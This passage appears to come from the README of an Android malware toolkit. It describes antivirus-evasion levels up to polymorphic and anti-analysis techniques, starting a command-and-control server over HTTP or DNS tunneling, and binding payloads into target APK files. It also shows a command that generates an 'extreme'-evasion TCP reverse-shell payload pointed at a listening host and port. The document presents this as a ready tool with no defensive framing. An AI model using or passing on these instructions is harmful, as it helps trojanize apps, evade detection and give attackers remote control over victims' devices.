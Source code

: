 ### 3. Advanced AV Evasion
Apply sophisticated evasion techniques:
- **Basic**: Signature randomization
- **Medium**: Code obfuscation + API hiding
- **High**: Polymorphic + Anti-analysis
- **Extreme**: AI-powered + Zero-day techniques

### 4. Start C2 Server
Launch command & control server:
- **HTTP/HTTPS**: Web-based C2
- **DNS Tunneling**: DNS-based communication
- **Multi-Protocol**: Combined protocols

## Command Line Arguments

```bash
Options:
  --payload TYPE     Payload type (tcp, http, dns, sms)
  --lhost IP         Listening host IP address
  --lport PORT       Listening port number
  --target APK       Target APK file for binding
  --evasion LEVEL    Evasion level (basic, medium, high, extreme)
  --debug            Enable debug mode
  --verbose          Enable verbose output
  --help, -h         Show help message
```

## Web Interface

Start the web interface:
```bash
python3 core/web_interface.py
```

Access at: `http://localhost:8080`

Features:
- Payload generation
- APK binding
- C2 dashboard
- File management

## Advanced Usage

### Custom Payload Generation
```bash
python3 core/payload_generator.py \
    --type tcp_reverse \
    --lhost 192.168.1.100 \
    --lport 4444 \
    --evasion extreme \
    --output custom_output
```

